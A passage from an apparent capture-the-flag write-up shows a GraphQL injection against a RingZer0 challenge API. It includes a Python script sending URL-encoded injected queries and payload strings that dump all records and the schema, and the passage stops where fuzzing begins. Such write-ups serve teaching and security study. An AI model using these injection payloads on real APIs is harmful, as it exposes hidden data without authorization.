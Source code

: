 So on the backend it will be:

```sh
{
	quote(id: 2) {
	  	id
	  	value
	  	author {
	  		name
		}
	}, quotes() {
	  	id
	  	value
	  	author {
	  		name
		}
	}
}
```

Let's slightly modify our previous script to send GET requests to our endpoint:

```python
import requests
from urllib.parse import quote

base_url = "http://challenges.ringzer0ctf.com:10303/api/quotes/"

headers = {
    'Content-Type': 'application/json'
}

string = """2){ id value author { name } },quotes("""
encoded_string = quote(string)  # URL encode the character
url = f"{base_url}{encoded_string}"
response = requests.get(url, headers=headers)
print(f"Response: {response.text}")
```

And indeed we get all the quotes at once.

So [GraphQL Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/GraphQL%20Injection) is possible, let's analyze it further. We can send the query to get the [GraphQL Schema](https://graphql.org/learn/schema/):

```
/api/quotes/2){ id value author { name } }, __schema{types{name, fields {name} } }, quotes(
```

We can see now all the fields in `Quote` structure: `author`, `id`, `public` and `value`. Hm, we haven't seen `public` field before... Also there is interesting `search` query. Let's build our query:

```
/api/quotes/2) { id } search (query: "our_char") { id,value } test : quote(id:1
```

We can also fuzz it:
